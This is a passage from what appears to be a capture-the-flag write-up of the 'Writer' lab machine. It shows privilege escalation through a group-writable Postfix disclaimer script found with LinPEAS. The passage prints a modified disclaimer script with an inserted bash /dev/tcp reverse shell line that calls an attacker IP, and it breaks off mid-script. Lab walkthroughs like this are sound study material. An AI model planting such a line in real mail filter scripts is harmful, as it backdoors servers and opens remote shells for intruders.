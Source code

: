 Next, let's just run a Linpeas script to identify possible privilege escalation vectors. From the output, it seems that there are installed mail applications (```postfix```), and the user ```kyle``` belongs to the ```filter``` group that seem to be able to write into the ```/etc/postfix/disclaimer``` file.

![POSTFIX mail applications](../assets/writer/mail_applications.png)

![Writeable files by filter group](../assets/writer/smtp_postfix.png)

Apart from that, we were also able to find out the emails for ```kyle``` and ```root```

```
kyle@writer:~$ cd /etc/postfix && ls
disclaimer            dynamicmaps.cf    main.cf.proto  master.cf.proto  postfix-script
disclaimer_addresses  dynamicmaps.cf.d  makedefs.out   postfix-files    post-install
disclaimer.txt        main.cf           master.cf      postfix-files.d  sasl
kyle@writer:/etc/postfix$ cat disclaimer_addresses
root@writer.htb
kyle@writer.htb
```

Now, we will create a modified disclaimer file (saved in another directory) that will call a reverse shell command and spawn a reverse shell. 

```
#!/bin/sh
# Localize these.
INSPECT_DIR=/var/spool/filter
SENDMAIL=/usr/sbin/sendmail
bash -i &>/dev/tcp/10.10.16.7/4444 0>&1

# Get disclaimer addresses
DISCLAIMER_ADDRESSES=/etc/postfix/disclaimer_addresses

# Exit codes from <sysexits.h>
EX_TEMPFAIL=75
EX_UNAVAILABLE=69

# Clean up when done or when aborting.
trap "rm -f in.$$" 0 1 2 3 15

# Start processing.
cd $INSPECT_DIR || { echo $INSPECT_DIR does not exist; exit
$EX_TEMPFAIL; }

cat >in.$$ || { echo Cannot save mail to file; exit $EX_TEMPFAIL; }

# obtain From address
from_address=`grep -m 1 "From:" in.$$ | cut -d "<" -f 2 | cut -d ">" -f 1`

if [ `grep -wi ^${from_address}$ ${DISCLAIMER_ADDRESSES}` ]; then
  /usr/bin/altermime --input=in.$$ \
                   --disclaimer=/etc/postfix/disclaimer.txt \
                   --disclaimer-html=/etc/postfix/disclaimer.txt \
```
